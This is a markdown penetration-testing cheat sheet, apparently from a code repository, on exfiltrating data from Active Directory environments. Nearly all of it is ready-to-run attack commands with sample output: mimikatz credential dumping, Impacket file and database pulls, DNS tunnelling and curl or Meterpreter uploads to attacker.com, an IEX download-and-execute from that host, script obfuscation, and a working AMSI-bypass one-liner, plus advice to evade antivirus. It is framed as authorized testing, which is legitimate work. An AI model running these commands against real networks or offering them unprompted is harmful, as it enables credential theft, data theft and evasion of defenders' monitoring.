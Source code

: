 # Data Exfiltration in Active Directory Penetration Testing

## Overview
Data exfiltration involves extracting sensitive data from the AD environment, such as credentials, files, or database contents, to demonstrate the impact of a breach.

## Detailed Methods and Techniques
- **Credential Dumping**:
  - **Technique**: Dump password hashes from a domain controller’s memory.
  - **Execution**: Use `mimikatz` for LSASS memory dump.
    ```bash
    mimikatz # sekurlsa::logonpasswords
    ```
    **Example Output**:
    ```
    Username: Administrator
    Domain: EXAMPLE.COM
    NTLM: aad3b435b51404eeaad3b435b51404ee
    ```
    - **Purpose**: Obtain credentials for further attacks or proof of compromise.
- **File Exfiltration**:
  - **Technique**: Copy sensitive files from SMB shares or user directories.
  - **Execution**: Use `smbclient.py` from Impacket.
    ```bash
    smbclient.py example.com/jdoe:P@ssw0rd123@192.168.1.20 -c "get sensitive.docx"
    ```
    **Example Output**:
    ```
    getting file \shared_folder\sensitive.docx
    ```
    - **Purpose**: Extract sensitive documents to demonstrate data loss.
- **Database Dumping**:
  - **Technique**: Extract data from an AD-integrated SQL server.
  - **Execution**: Use `mssqlclient.py` from Impacket.
    ```bash
    mssqlclient.py example.com/jdoe:P@ssw0rd123@192.168.1.30 -windows-auth
    SQL> SELECT * FROM sensitive_data;
    ```
    **Example Output**:
    ```
    id  | name        | ssn
    1   | John Doe    | 123-45-6789
    2   | Jane Smith  | 987-65-4321
    ```
    - **Purpose**: Demonstrate exposure of critical data.
- **DNS Tunneling**:
  - **Technique**: Exfiltrate data via DNS queries to bypass network monitoring.
  - **Execution**: Use `dnscat2`.
    ```bash
    dnscat2-client --dns server=attacker.com
    ```
    **Example Output**:
    ```
    [*] Data sent via DNS to attacker.com
    ```
    - **Purpose**: Covertly exfiltrate data past firewalls.
- **HTTP/HTTPS Exfiltration**:
  - **Technique**: Upload data to a remote server via HTTP/HTTPS.
  - **Execution**: Use `curl`.
    ```bash
    curl -F "file=@sensitive.docx" http://attacker.com/upload
    ```
    **Example Output**:
    ```
    Upload successful
    ```
    - **Purpose**: Transfer data to an attacker-controlled server.

## Exploitation Methods
- **Data Transfer via C2**:
  - **Technique**: Use a command-and-control (C2) framework to exfiltrate data.
  - **Execution**: Use Metasploit’s Meterpreter.
    ```bash
    meterpreter > upload sensitive.docx http://attacker.com
    ```
    **Example Output**:
    ```
    [*] uploading: sensitive.docx -> http://attacker.com
    ```
    - **Purpose**: Simulate real-world data theft.
- **Covert Exfiltration**:
  - **Technique**: Use steganography to hide data in images or other files.
  - **Execution**: Use `steghide`.
    ```bash
    steghide embed -cf image.jpg -ef sensitive.txt
    ```
    **Example Output**:
    ```
    embedding "sensitive.txt" in "image.jpg": done
    ```
    - **Purpose**: Exfiltrate data covertly via email or file uploads.

## AV/AMSI Evasion Techniques
- **Encrypted Exfiltration**:
  - **Technique**: Use HTTPS for data exfiltration.
  - **Execution**: Use `curl` with HTTPS.
    ```bash
    curl -F "file=@sensitive.docx" https://attacker.com/upload
    ```
    - **Purpose**: Evade network-based AV/EDR monitoring.
- **Obfuscated Payloads**:
  - **Technique**: Obfuscate exfiltration scripts.
  - **Execution**: Use `Invoke-Obfuscation`.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {Invoke-WebRequest -Uri https://attacker.com/upload -Method Post -InFile sensitive.docx} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Evade AMSI detection.
- **In-Memory Execution**:
  - **Technique**: Execute exfiltration scripts in memory.
  - **Execution**: Use `Invoke-Expression`.
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('https://attacker.com/exfil.ps1')
    ```
    - **Purpose**: Avoid AV detection by not writing to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI for PowerShell-based exfiltration.
  - **Execution**:
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
    ```
    - **Purpose**: Prevent PowerShell script scanning.

## Tools
- **Mimikatz**: Credential dumping (`sekurlsa::logonpasswords`).
- **Impacket**: File and database access (`smbclient.py`, `mssqlclient.py`).
- **Metasploit**: C2 framework for data transfer (`meterpreter`).
- **dnscat2**: DNS tunneling for covert exfiltration.
- **steghide**: Steganography for covert exfiltration.
- **curl**: HTTP/HTTPS data transfer.

## Best Practices
- Ensure exfiltration tests are authorized and data is handled securely.
- Document all exfiltrated data types and methods for reporting.
- Delete exfiltrated data after testing to prevent leaks.
- Use encryption and obfuscation to evade AV/AMSI.